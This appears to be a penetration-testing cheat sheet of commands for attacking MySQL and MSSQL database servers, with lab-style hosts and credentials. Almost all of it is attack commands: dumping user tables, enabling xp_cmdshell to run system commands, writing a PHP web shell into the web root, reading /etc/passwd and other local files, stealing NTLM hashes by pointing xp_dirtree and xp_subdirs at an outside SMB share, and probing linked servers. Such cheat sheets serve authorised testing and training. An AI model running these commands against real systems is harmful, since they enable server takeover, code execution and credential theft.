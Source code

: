 # Mysql

% mysql, database, db, 3306
#plateform/linux  #target/remote  #protocol/mysql  #port/3306

## Login to the MySQL server - Footprinting
```
mysql -u <user> -p<password> -h <FQDN/IP>
```

## mysql - Connect to MySQL server
```
mysql -u julio -pPassword123 -h 10.129.20.13
```

## sqlcmd - Connect to MSSQL server
```
sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30
```

## sqsh - Connect to MSSQL server from Linux
```
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

## sqsh - Connect to MSSQL with Windows Authentication
```
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```

## mysql - Show databases
```
mysql> SHOW DATABASES;
```

## mysql - Select database
```
mysql> USE htbusers;
```

## mysql - Show tables
```
mysql> SHOW TABLES;
```

## mysql - Select all from users table
```
mysql> SELECT * FROM users;
```

## sqlcmd - Show databases
```
sqlcmd> SELECT name FROM master.dbo.sysdatabases
```

## sqlcmd - Select database
```
sqlcmd> USE htbusers
```

## sqlcmd - Show tables
```
sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES
```

## sqlcmd - Select all from users table
```
sqlcmd> SELECT * FROM users
```

## sqlcmd - Allow advanced options
```
sqlcmd> EXECUTE sp_configure 'show advanced options', 1
```

## sqlcmd - Enable xp_cmdshell
```
sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1
```

## sqlcmd - Apply configuration changes
```
sqlcmd> RECONFIGURE
```

## sqlcmd - Execute system command
```
sqlcmd> xp_cmdshell 'whoami'
```

## mysql - Create a file
```
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'
```

## mysql - Check secure file privileges
```
mysql> show variables like "secure_file_priv";
```

## sqlcmd - Read local files
```
sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

## mysql - Read local files
```
mysql> select LOAD_FILE("/etc/passwd");
```

## sqlcmd - Hash stealing with xp_dirtree
```
sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'
```

## sqlcmd - Hash stealing with xp_subdirs
```
sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

## sqlcmd - Identify linked servers
```
sqlcmd> SELECT srvname, isremote FROM sysservers
```

## sqlcmd - Identify remote user privileges
```
sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
```
